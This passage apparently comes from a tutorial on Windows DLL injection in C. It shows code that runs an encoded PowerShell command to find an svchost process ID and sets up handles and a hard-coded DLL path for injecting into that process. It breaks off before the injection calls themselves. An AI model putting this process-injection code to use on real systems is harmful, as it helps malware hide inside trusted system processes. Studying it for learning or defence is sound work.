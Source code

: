 ```c

	if (fpipe == NULL) {
		printf("%s error running the command error: %ld", e, GetLastError());
		return EXIT_FAILURE;
	}

	if (fgets(code, 64, fpipe) == NULL) {
		printf("%s error reading output of command error: %ld", e, GetLastError());
		return EXIT_FAILURE;
	}

	_pclose(fpipe);

	PID = strtoul(code, NULL, 10);
	printf("%s PID: (%ld)\n", k, PID);

	return EXIT_SUCCESS;
}
```

Adding it all together gives this:
```c
#include <stdio.h>
#include <Windows.h>

const char* k = "[+]";
const char* e = "[-]";
const char* i = "[*]";

DWORD PID, TID = NULL;
FILE* fpipe = NULL;
LPVOID rBuffer = NULL;
HMODULE hKernel32 = NULL;
HANDLE hProcess, hThread = NULL;

wchar_t dllPath[MAX_PATH] = L"C:\\Users\\eljay\\source\\repos\\dllinjection\\mydll.dll";
size_t dllPathSize = sizeof(dllPath);

int main(int argc, char* argv[]) {

	if (argc < 2) {
		/* Find svchost process */

		printf("%s No PID supplied going to use svchost.\n", i);
		printf("%s finding PID.\n", i);
		const char* command = "powershell.exe -e <b64 command>";
		char code[64];
		fpipe = (FILE*)_popen(command, "r");

		/* Run powershell command */
		if (fpipe == NULL) {
			printf("%s error running the command error: %ld", e, GetLastError());
			return EXIT_FAILURE;
		}
		/* Read output */
		if (fgets(code, 64, fpipe) == NULL) {
			printf("%s error reading output of command error: %ld", e, GetLastError());
			return EXIT_FAILURE;
		}

		_pclose(fpipe);

		PID = strtoul(code, NULL, 10);
		printf("%s PID found: (%ld)\n", k, PID);
```